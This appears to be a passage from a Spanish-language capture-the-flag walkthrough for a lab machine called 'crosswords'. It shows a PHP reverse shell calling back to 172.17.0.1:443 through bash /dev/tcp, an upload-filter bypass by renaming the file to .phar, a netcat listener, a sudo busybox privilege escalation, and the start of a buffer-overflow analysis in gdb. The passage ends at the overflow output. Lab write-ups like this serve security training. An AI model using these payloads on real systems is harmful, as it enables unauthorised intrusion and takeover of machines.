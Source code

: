 # Intrusión

Teniendo una subida de archivos, podemos crear un archivo php el cual nos envíe una reverse shell. Para hacerlo creamos un archivo llamado `shell.php` el cual contenga lo siguiente:

```php
<?php

system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");

?>
```

Una vez creado, intentamos subirlo pero nos dice lo siguiente:

```css
No se permiten archivos PHP, solo HTML.
```

podemos intentar bypasear esta restricción cambiando la extensión del archivo por `phar`. Al cambiarlo e intentar subirlo, nos aparece el siguiente mensaje:

```css
Archivo subido con éxito: shell.phar
```

ahora escuchamos por el puerto 443 con netcat (`sudo nc -lvnp 443`) y entramos en `http://crosswords.5eek3r.dl/shell.phar` para entrar en la máquina.

# Escalada De Privilegios

### www-data

Si ejecutamos `sudo -l`, veremos que podemos ejecutar el binario `busybox` como el usuario "astu", por lo que podriamos escalar ejecutando lo siguiente:

```css
sudo -u astu busybox sh
```

### Astu

Al ejecutar `sudo -l` nos pide contraseña, pero en la home de el usuario astu podremos ver una carpeta la cual tiene un binario con el bit SUID activado. Viendo esto probamos a poner muchos caracteres y veremos que es vulnerable a `buffer overflow`. Sabiendo esto nos lo pasamos a nuestra máquina y comenzamos a depurarlo con `gdb`.

#### Buffer Overflow

Creamos un pattern con `pattern_create` de metasploit y lo mandamos por el gdb con el binario y vemos lo siguiente:

```css
► 0x4013d8 <main+58>    ret                                <0x6341356341346341>
```
